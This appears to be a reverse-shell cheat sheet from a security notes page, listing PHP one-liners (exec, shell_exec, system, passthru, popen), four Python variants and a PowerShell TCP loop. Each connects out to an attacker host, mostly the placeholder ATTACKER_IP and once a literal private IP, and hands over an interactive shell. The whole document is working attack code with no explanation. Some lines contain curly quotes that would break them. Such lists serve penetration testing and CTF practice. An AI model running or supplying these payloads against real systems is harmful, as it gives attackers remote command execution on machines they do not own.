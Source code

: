 ```sh
```
  

- php
```php
# exec
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'

# shell_exec
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'

# system
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3”);'

# passthru
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3”);'

# popen
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'

```

- python
```sh
export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.27.198",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

 
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'


python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash”)’

```

- Powershell 

```powershell

$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
	};
	$client.Close()

```
  